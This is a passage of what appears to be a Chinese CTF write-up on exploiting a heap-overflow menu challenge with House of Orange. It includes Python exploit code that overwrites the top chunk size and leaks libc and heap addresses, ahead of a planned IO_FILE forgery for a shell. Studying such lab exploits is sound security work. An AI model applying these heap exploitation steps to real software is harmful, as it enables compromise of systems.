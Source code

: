 ### 分析

菜单题，有 add、edit、show 三功能，无 free

在 edit 功能中有堆溢出漏洞，经典的 House of orange 模版

### 利用思路

通过 House of orange 方法获得 unsorted bin chunk，利用 unsortedbin attack 伪造执行伪造的 IO\_FILE 结构体 getshell

### 做题过程

修改 topchunk size

```plain
add(0x20,b"aaaa")
edit(0,-1,p64(0)*5+p64(0xfd1))
add(0x1000,b"a")
```

[![](assets/1701606938-9adec33a3bc4e5a69dfa0c63996b30bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201532-5f6c2858-6a8b-1.png)

此时我们得到了一个 unsorted bin 中的堆块，但是为了后续攻击需要，我们还需要泄露堆地址和 libc 地址。而这道题其实还存在一个漏洞，就是忘记在输入函数中输入数据后，给字符串末尾加上\\x00 了，这就导致了 unsorted bin 中的堆块被申请后会残留 fd 和 bk 指针，再次申请的时候即可泄露 libc。

但是我们还需要泄露堆地址，就需要申请一个 largebin 大小的 chunk。当触发遍历 unsorted bin 的时候，会将其中的堆块分类放入 small bin 或者 large bin 中，这样这个堆块就会被分到 large bin 中，然后启用 fd\_nextsize 和 bk\_nextsize 指针 (堆地址在这上面)

这个 chunk 上面残留了 libc 和堆地址，我们执行两次 show 即可进行泄露

```plain
add(0x400,b"b"*8)
show()
ru(b"b"*8)
main_arena = uu64(r(6))
libc_base = main_arena-1640-0x10-libc.sym['__malloc_hook']
edit(2,-1,b"c"*0x10)
show()
ru(b"c"*0x10)
heap_addr = uu64(r(6))-0x30
```

[![](assets/1701606938-6510d9a6709dc0a032d0317bf389d368.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201542-64f92da2-6a8b-1.png)
